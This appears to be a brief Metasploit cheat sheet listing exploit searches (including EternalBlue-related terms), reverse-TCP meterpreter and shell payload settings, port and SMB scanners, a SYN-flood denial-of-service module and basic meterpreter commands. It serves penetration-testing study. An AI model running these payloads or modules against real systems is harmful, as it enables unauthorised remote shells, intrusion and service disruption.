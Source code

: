 ## 🎯 Main Components

### Exploits
```bash
# Search exploits
search name:eternal
search platform:windows type:exploit
search cve:2017

# Categories
search type:auxiliary
search type:post
search type:encoder
```

### Payloads
```bash
# Show compatible payloads
show payloads

# Payload types
# Singles - self-contained
# Stagers - small payload that downloads larger
# Stages - payload components downloaded by stager

# Common payloads
set payload windows/meterpreter/reverse_tcp
set payload linux/x86/shell/reverse_tcp
set payload php/meterpreter/reverse_tcp
```

### Auxiliary Modules
```bash
# Scanners
use auxiliary/scanner/portscan/tcp
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/http/dir_scanner

# Fuzzers
use auxiliary/fuzzers/http/http_form_field

# Denial of Service
use auxiliary/dos/tcp/synflood
```

## 🔥 Meterpreter Commands

### System Information
```bash
# System info
sysinfo
getuid
getpid

# Process list
ps

# Environment variables
getenv
```
